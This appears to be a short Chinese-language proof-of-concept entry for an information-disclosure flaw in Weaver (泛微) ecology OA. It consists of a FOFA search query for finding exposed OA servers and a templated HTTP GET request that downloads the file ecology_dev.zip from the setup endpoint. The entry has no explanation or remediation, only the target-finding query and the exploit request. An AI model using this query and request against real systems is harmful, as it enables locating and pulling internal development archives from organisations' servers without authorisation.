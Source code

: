 # 泛微ecology系统setup接口存在信息泄露漏洞



## fofa

```yaml
app="泛微-协同办公OA"
```

## poc

```yaml
GET /cloudstore/ecode/setup/ecology_dev.zip HTTP/1.1 
Host: {{Hostname}} 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
```

